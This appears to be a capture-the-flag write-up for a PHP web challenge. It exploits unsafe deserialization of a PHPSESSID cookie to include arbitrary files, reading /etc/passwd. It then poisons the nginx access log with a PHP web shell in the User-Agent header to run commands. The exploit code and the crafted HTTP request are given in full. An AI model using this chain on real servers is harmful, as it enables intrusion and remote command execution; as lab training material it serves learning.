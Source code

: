 1. After we analyzed the source code, we discovered something interesting.
   - The flag file existed in `/` directory and was renamed something like `flag_XXXXX`; `XXXXXX` was random.
   - `index.php` serialized `PageModel` class and put it inside the client's cookie `PHPSESSID`.
   - `PageModel` would read the `$file`.
   - `index.php` unserialized the client's cookie to read the file.

2. We then tested whether we could read any file in the system by changing `PHPSESSID`, and it succeeded.

```php
<?php

class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}

$page = new PageModel;
$page->file = '../etc/passwd';

echo base64_encode(serialize($page));
```

3. Since we cannot know the flag's filename, and thus we need something to execute `ls /`. To do this, we used `/var/log/nginx/access.log` that was described in the `nginx.conf`, and we then changed our `Agent` to `<?php system($_GET['cmd']) ?>` to access the webserver.

4. Finally, we changed the `PHPSESSID` pointing to `/log/nginx/access.log`, and provided the parameter `cmd=ls+/`.

```php
<?php

class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}

$page = new PageModel;
$page->file = '/var/log/nginx/access.log';

echo base64_encode(serialize($page));
```

```
GET http://138.68.167.82:31905/index.php?cmd=ls+/ HTTP/1.1
Host: 138.68.167.82:31905
User-Agent: system($_GET["cmd"])
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 0
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```
